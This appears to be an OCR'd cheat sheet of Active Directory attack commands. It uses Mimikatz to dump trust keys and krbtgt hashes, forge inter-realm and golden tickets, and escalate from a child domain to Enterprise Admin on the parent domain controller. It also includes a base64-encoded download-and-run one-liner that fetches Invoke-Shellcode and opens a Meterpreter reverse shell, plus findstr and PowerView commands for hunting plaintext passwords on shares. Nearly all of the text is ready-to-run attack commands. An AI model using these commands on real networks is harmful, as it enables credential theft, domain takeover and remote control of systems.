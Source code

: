 Child to Forest Root using Trust Tickets:
```Powershell              
Invoke-Mimikatz -Command ‘"lsadump::trust /patch"’
```        
Inter-realm TGT can be forged:
```Powershell                  
Invoke-Mimikatz -Command ‘"Kerberos::golden /domain:<domain> /sid:<current domain sid> /sids:<sid history ....-519> /rc4:<ntlmhash of trustkey> /user:<user you want to impersonate> /service:krbtgt /target:<parent domain target> /ticket:C:\Users\Administrator\Desktop\trust_tkt.kirbi"’ 
```            
Get a TGS for a service in the target domain by using the forged trust ticket:
```Powershell                  
.\asktgs.exe C:\Users\Administrator\Desktop\trust_tkt.kirbi CIFS/ps-dc.powershell.local (DC on parent domain)           
```            
Use TGS to access the targeted service:
```Powershell                  
.\kirbikator.exe lsa .\CIFS.ps-dc.powershell.local.kirbi ls \\ps-dc.powershell.local\c$
```    
Child to Forest Root using krbtgt hash:
```Powershell              
Invoke-Mimikatz -Command ‘"lsadump::lsa /patch"’
            
Invoke-Mimikatz -Command ‘"kerberos::golden /user:Administrator /domain:<domain> /sid:<sid> /krbtgt:<krbtgt hash> /sids:<sid history ....-519> /ticket:krb_tkt.kirbi"’
```            
On a machine of parent domain:            
```Powershell                  
Invoke-Mimikatz -Command ‘"kerberos::ptt C:\test\krb_tkt.kirbi"’
```            
We now have Enterprise Admin privileges:
```Powershell                  
ls //ps-dc.powershell.local/C$
```	
	
---
```powershell	
$command=”IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 127.0.0.1 -Lport 443 -Force”
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
$encodedCommand >> output.txt
```

Plaintext passwords in network shared and object attributes:

1. PowerView:

Invoke-ShareFinder
Get-NetFileServer
Get-DFSshare

2.
findstr /s /i /m "pw" \\SHARE\PATH\*.<FILEEXTENSION>
findstr /s /i /m "pass" \\SHARE\PATH\*.<FILEEXTENSION>

findstr /s /i /m "pass" \\FileServer01\Scripts\*.ini
